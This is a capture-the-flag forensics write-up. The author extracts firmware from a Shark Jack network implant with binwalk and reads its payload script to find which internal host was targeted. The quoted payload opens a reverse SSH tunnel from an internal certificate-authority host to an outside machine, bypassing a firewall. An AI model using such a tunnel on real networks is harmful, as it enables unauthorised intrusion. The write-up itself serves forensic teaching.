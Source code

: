 # Controlled Access

* **Category:** Forensics
* **Points:** 50
* **Challenge:** We've been asked to help a certificate authority figure out what a device they found plugged into their network was doing. They were able to dump the firmware and would like to know if it allowed the attacker to connect to any devices that their firewall (which blocks inbound SSH) would have stopped. Their internal domain uses 'digisigner.local' for DNS host names. The flag is the hostname of the internal host that the hacker targeted (i.e. ACI{[local hostname targeted]})
* **Hint #1:** A tool like binwalk might be useful for inspecting the firmware.
* **Hint #2:** The [documentation](https://docs.hak5.org/hc/en-us/categories/360002117973-Shark-Jack) mentions that the 'attack' payload for this device lives in a very particular spot on the filesystem..

<br /> 

First, lets use `binwalk` to search through the binary file for any other embedded files:
```
binwalk -e firmware.bin

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             uImage header, header size: 64 bytes, header CRC: 0x1E09FA95, created: 2019-11-06 04:52:00, image size: 1467840 bytes, Data Address: 0x80000000, Entry Point: 0x80000000, data CRC: 0x71E0036C, OS: Linux, CPU: MIPS, image type: OS Kernel Image, compression type: lzma, image name: "MIPS OpenWrt Linux-4.14.109"
64            0x40            LZMA compressed data, properties: 0x6D, dictionary size: 8388608 bytes, uncompressed size: 4644588 bytes
1467904       0x166600        Squashfs filesystem, little endian, version 4.0, compression:xz, size: 7125278 bytes, 1024 inodes, blocksize: 262144 bytes, created: 2020-04-23 14:56:04
```

<br />

Now lets take a look at everything binwalk extracted:
```
ls -la _firmware.bin.extracted/

total 19904
drwxr-xr-x  3 root root    4096 May 11 20:58 .
drwxr-xr-x  3 root root    4096 May 11 20:58 ..
-rw-r--r--  1 root root 7125278 May 11 20:58 166600.squashfs
-rw-r--r--  1 root root 4644588 May 11:w 20:58 40
-rw-r--r--  1 root root 8594880 May 11 20:58 40.7z
drwxr-xr-x 16 root root    4096 Nov  5  2019 squashfs-root
```

<br />

Looks like this device, Shark Jack,  has an embedded Linux filesystem, SquashFS.  Digging into the [documentation](https://docs.hak5.org/hc/en-us/articles/360034130934-Directory-Structure), the payload to be executed should be located in /root/payload:
```
ls -la squashfs-root/root/payload/

total 12
drwxr-xr-x 2 root root 4096 Nov  5  2019 .
drwxr-xr-x 3 root root 4096 Nov  5  2019 ..
-rw-r--r-- 1 root root  276 Apr 23 10:56 payload.sh

cat squashfs-root/root/payload/payload.sh 

#!/bin/bash
#
# Title:         Secure Shark Jacker
# Author:        Mr. Robot
# Version:       13.37
#
INTERNAL_HOST=rootca.digisigner.local
INTERNAL_PORT=22

function run() {
    ssh -R localhost:31337:$INTERNAL_HOST:$INTERNAL_PORT garyhost@10.57.1.7
}


# Run payload
run &
```

<br /> 

We can see from the contents of the payload that the hacker targeted the internal host rootca.digisigner.local.


## Flag: ACI{rootca.digisigner.local}

